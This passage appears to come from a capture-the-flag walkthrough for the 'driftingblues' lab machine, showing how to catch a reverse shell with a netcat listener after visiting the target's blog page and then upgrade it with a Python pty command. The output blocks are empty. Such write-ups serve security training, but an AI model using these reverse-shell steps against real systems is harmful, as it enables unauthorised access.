


4.1 Access to reverse shell
1. On you Kali Machine run the following code.
$nc -lvp 1234
2. Visit the http://driftingblues.box/blog page.
3. On your “Reverse shell” you'll get a shell.
Output:

4. Get a better shell. Run on your “Reverse shell” the following command.
python3 -c 'import pty;pty.spawn("/bin/bash")'
Output:
